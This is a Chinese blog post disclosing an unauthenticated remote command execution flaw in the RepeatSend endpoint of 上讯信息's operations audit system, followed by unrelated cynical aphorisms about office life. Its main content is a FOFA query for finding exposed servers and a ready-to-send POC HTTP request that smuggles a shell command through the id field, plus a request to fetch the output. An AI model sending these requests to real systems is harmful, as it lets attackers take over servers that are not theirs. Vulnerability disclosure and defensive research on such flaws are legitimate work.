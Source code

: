 #  上讯信息技术股份有限公司运维管理系统RepeatSend命令执行漏洞   
原创 SXdysq  南街老友   2025-05-16 19:24  
  
   
  
> 字数 335，阅读大约需 2 分钟  
  
## 漏洞简介  
  
上讯信息运维管理审计系统 repeatsend 远程命令执行，未经身份验证的远程攻击者可利用此漏洞写入后门文件，执行任意命令，导致服务器被控。  
## FOFA  
```
body="default/getloginhtml"
```  
## POC  
```
POST /emailapply/RepeatSend HTTP/1.1Host: Content-Type: application/x-www-form-urlencodedConnection: closeUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.850.86 Safari/537.36id='%0id > 123.txt%0a'
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtBWfKzr6BWLso0xuwpGE8ibhavPG4Xn4QODibj6UzLvVZd9cD1U0sXpHjCU7N4BmFg9GKnURjDqicZ5g/640?from=appmsg "null")  
  
```
GET /123.txt HTTP/1.1Host: 
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtBWfKzr6BWLso0xuwpGE8ibhVBStvDkVoX3h3pHjYRRwuaow8vibXpWp5KCJxIgNOPUSKmiayxFrsANQ/640?from=appmsg "null")  
  
  
噢，对了这个漏洞没用到代码审计的技能，只不过是前人栽树后人乘凉罢了。  
  
懂的都懂  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtBWfKzr6BWLso0xuwpGE8ibhO1DeYbfwgA2sHgHtrh18fwKqjRqATlrd6xRbyzw1mBVaicNfsfUSUmA/640?from=appmsg "null")  
  
## 鸡汤  
- • 每个Excel单元格都是全景监狱的微型模型  
  
- • 在KPI炼金术里，灵魂正被批量转化为可交易金属  
  
- • 茶水间的窃语是福柯笔下的规训回音壁  
  
- • 周报里的虚假数据正在书写新资本论补遗  
  
- • 工位隔板构成汉娜·阿伦特式的平庸之恶矩阵  
  
- • 晋升阶梯的每一阶都浇筑着海德格尔说的"常人"骨灰  
  
- • 会议室的单向镜后，鲍德里亚的拟像正在直播  
  
- • 钉钉提示音是数字泰勒主义的弥赛亚召唤  
  
- • 年终奖数字成为存在主义焦虑的二进制封印  
  
- • 这场永续的办公室政治，本质是资本精心设计的斗兽场 placebo  
  
  
  
   
  
  
